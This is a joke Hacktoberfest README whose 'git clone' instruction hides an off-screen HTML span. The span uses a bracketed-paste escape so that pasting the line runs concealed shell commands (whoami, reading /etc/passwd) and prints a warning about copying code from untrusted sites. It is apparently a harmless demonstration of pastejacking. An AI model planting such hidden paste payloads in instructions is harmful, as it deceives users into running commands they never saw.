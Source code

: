 # can-i-have-a-free-tshirt
Thanks.

## Contributors
boka (boka@slickage.com)

## Messages
boka:  Thank mister skeltal!

## Hacktoberfest 
get free tshirt.

```
git clone
<span style="position: absolute; /* left: -1000px; */ /* top: -1000px*/">[201~/dev/null; clear; echo -n "Hello ";whoami|tr -d '\n';echo -e '!\nThat was a bad idea. Don'"'"'t copy code from websites you don'"'"'t trust!<br>Here'"'"'s the first line of your /etc/passwd: ';head -n1 /etc/passwd<br>git clone </span>
https://github.com/JGefroh/can-i-have-a-free-tshirt.git
```
